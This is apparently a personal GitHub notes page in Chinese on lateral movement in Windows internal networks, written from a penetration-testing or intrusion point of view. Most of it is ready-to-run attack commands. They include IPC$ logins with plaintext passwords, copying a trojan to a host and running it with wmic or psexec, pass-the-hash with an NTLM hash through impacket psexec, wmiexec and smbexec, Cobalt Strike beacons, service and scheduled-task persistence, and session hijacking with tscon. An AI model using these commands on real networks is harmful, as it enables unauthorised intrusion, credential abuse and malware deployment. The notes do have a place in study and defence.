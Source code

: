 实战中记录下横向的一些方法，打内网第一步是免杀，其次是横向扩展。

## 0x00 碰见的横向移动方法总结1_IPC（部分，慢慢更新）

    主机开启139和445端口，IPC移动  
    shell net use \\192.168.10.23\ipc$ "Psft24680!!@@62##" /user:"Administrator"  
    
    查看远程主机文件
    
    
    dir \\192.168.52.143\c$
    dir \\192.168.52.143\c$\xx文件夹
    
    在本地传个马，copy过去    
    shell copy C:\\Windows\\Temp\\ma.exe \\192.168.10.23\c$\Windows\Temp\ma.exe
      
    wmic远程执行 
    shell wmic /node:192.168.10.23 /user:Administrator /password:Psft24680!!@@62## process call create "cmd.exe /c C:\\Windows\\Temp\\ma.exe"
    
    也可以使用psexec进行远程执行
    
    psexec.exe -accepteula \\192.168.41.150 -h -d c:\wanli.exe
    
    如果发现很久没有上线，可能目标不出网

## 0x01 横向移动方法总结2_beacon
 
    SMB Beacon使用命名管道和父级命名管道进行通信,所以利用他可进行横向移动
    
    使用条件
    
    使用SMB的主机必修接受445端口打开
    只能链接由同一Cobalt Strike实例管理的Beacon
## 0x02 横向移动方法3_PTH攻击

    psexec工具功能之一是远程启动交互式shell,这个工具不需要对方开启3389端口，只需要开启admin$共享即可。
    
    使用方法1
    
    1.psexec 需要建立ipc连接进行横向移动
    
     net use \\192.168.3.144\ipc$ “admin!@#45” /user:"administrator"  #和对方建立IPC链接，出现弹框点击agree
     psexec \\192.168.3.64 -s cmd cmd     #   -s,表示以system权限运行窗口，成功返回目标主机system权限窗口
     
    2.ps不需要建立ipc连接进行横向移动
     
     前提开启admin$共享
    
     psexec \\192.168.3.144 -u administrator -p admin123！！ -s cmd   #实战中碰见很多未知问题，可以换其他的横向方法
     
     注意官方自带的psexec只能通过明文进行传递攻击，密码是行不通的，例如 psexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.144 是不可以的
     
    3.利用impacket中的工具包进行横向渗透，可解决密文攻击问题
    
      impacket工具包里有个psexec，可进行密文传递攻击，下载地址：https://github.com/maaaaz/impacket-examples-windows
      
      psexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.144
      
      这块记录给自己留个作业，可以写个工具，针对不同的用户和密码进行组合后进行喷洒。
    
    4.smbexec无需IPC连接进行横向移动
    
      smbexec.exe mssql:Admin@1234@192.168.251.252 # 连接本地用户组
      
      smbexec.exe ROOTKIT.ORG/administrator:admin!@#45@192.168.3.144  # 连接域内用户
      
      ![图片](https://user-images.githubusercontent.com/118274389/229289834-9cdb8adb-9302-47bb-9925-609ac5db69e6.png)

      
    以上方法CS里自带该功能。

## 0x03 横向移动方法4_票据攻击

## 0x04 横向移动方法5_远控攻击

  远控攻击就是给目标装一些免安装的远控软件，例如：向日葵、todesk

  https://github.com/wafinfo/Sunflower_get_Password
  
  
## 0x05 利用WMI进行横向移动攻击

  WMI的全名为（Windows Management Instrumentation）由于安全厂商开始将PsExec加入了黑名单，所以攻击者暴露的可能性陡然增加。根据研究情况来看，Windows操作系统默认不会将WMI的   操作记录到日志当中，而且因为采用的是无文件攻击，所以导致WMI具有极高的隐蔽性。由此，越来越多的APT开始使用WMI进行攻击，利用WMI可以进行信息收集、探测、反病毒、虚拟机检测、命令执   行、权限持久化等操作。
  Windows操作系统都支持WMI。WMI是由一系列工具集组成的，可以在本地或者远程管理计算机系统。通过135端口进行利用，支持用户名明文或者hash的方式进行认证，并且该方法不会在目标日志系   统留下痕迹。
  
  利用系统自带的wmi进行明文横向扩展
  
  wmic /node:192.168.3.144 /user:administrator /password:admin!@#45 process call create "md.exe /c ipconfig >C:\3.txt"
  
  在使用自带的wmic时，无回显，ipconfig这条命令显示的内容保存在3.txt文件中，并且是在对方的主机中，较为鸡肋。

## 0x06 利用impacket工具包中的wmiexec进行横向移动

   命令：wmiexec ./Administrator:admin!@#45@192.168.3.144 "whoami" ##如果直接上CS的话，上线后的权限为administrator
   
   hash攻击命令：wmiexec -hashes :518b98ad4178a53695dc997aa02d455c Administrator@192.168.3.73 "whoami"
   
 ## 0x07 IPC+windows服务进行横向移动
 
    该方法横向是将木马传入到对方机器里，通过SC命令创建window来指向该传入的木马，重启该服务或者重启机器达到上线CS的目的，该横向步骤如下；
    
    1.创建IPC$连接。
    
    2.将要运行的服务拷贝到目标机器。
    
    3.执行 sc \\192.168.3.144 create cmd binpath="c:\cmd.bat"
    
    参考文章：https://www.freesion.com/article/2259895176/
    
 ## 0x08 IPC+计划任务进行横向移动
 
     利用AT进行横向移动
 
     1.先建立IPC任务 net use \\192.168.3.144\ipc$ "admin!@#45"/user:rookit.org\administrator
    
     2.添加添加用户bat脚本，也可以添加木马脚本
     
     3.将bat脚本发送到目标机器copy 1.bat \\192.168.3.144\c$
     
     4.利用at启动该bat脚本 at \\192.168.1.144 20:05 c:\adduser.bat （有的系统已经不使用at命令，可以尝试其他命令进行启动，如schtasks）
 
 
   
  
  
## 0x09 其他横向技巧

  Windows Server 2012及以上不提取密码登录Administrator桌面（登录这个桌面目的是看看Administrator桌面有啥，方便横向）
  
  2012及高版本想要得到密码，只能通过修改注册表，然后让管理员重新登录主机才能得到密码，一般服务器重新进行登录时候很少。我们可以通过一些技巧得到Administrator权限，
  
  拿到shell后，whoami是system权限，可以添加用户后，上隧道把远程桌面代理出来，此时的权限仍然是system权限
  
  此时想要得到Administrator权限步骤如下：
  
  1.psexec启动一个system权限的cmd  命令：psexec.exe -s -i cmd.exe  
  
  2.query user 
  
  3.查看administrator会话id   
  
  4.tscon 1 切换会话id为Administrator权限
  
  
  
  
  


